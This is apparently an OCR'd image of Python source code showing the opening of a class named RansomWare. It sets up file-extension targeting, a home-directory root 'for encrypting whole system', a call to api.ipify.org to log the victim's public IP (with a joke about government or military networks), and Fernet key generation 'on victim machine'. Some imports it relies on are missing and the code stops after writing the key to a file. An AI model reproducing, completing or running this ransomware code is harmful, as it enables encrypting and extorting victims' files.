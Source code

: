 ```python
from Crypto.Random import get_random_bytes
from Crypto.Cipher import AES, PKCS1_OAEP
import base64
import threading # used for ransom note and decryption key on desktop



class RansomWare:


    # File extensions to seek out and Encrypt
    file_exts = [
        'txt',
       # We comment out 'png' so that we can see the RansomWare only encrypts specific files that we have chosen-
       # -and leaves other files un-encrypted etc.
       # 'png',

    ]


    def __init__(self):
        # Key that will be used for Fernet object and encrypt/decrypt method
        self.key = None
        # Encrypt/Decrypter
        self.crypter = None
        # RSA public key used for encrypting/decrypting fernet object eg, Symmetric key
        self.public_key = None

        ''' Root directories to start Encryption/Decryption from
            CAUTION: Do NOT use self.sysRoot on your own PC as you could end up messing up your system etc...
            CAUTION: Play it safe, create a mini root directory to see how this software works it is no different
            CAUTION: eg, use 'localRoot' and create Some folder directory and files in them folders etc.
        '''
        # Use sysroot to create absolute path for files, etc. And for encrypting whole system
        self.sysRoot = os.path.expanduser('~')
        # Use localroot to test encryption softawre and for absolute path for files and encryption of "test system"
        self.localRoot = r'D:\Coding\Python\RansomWare\RansomWare_Software\localRoot' # Debugging/Testing

        # Get public IP of person, for more analysis etc. (Check if you have hit gov, military ip space LOL)
        self.publicIP = requests.get('https://api.ipify.org').text


    # Generates [SYMMETRIC KEY] on victim machine which is used to encrypt the victims data
    def generate_key(self):
        # Generates a url safe(base64 encoded) key
        self.key =  Fernet.generate_key()
        # Creates a Fernet object with encrypt/decrypt methods
        self.crypter = Fernet(self.key)


    # Write the fernet(symmetric key) to text file
    def write_key(self):
        with open('fernet_key.txt', 'wb') as f:
            f.write(self.key)


```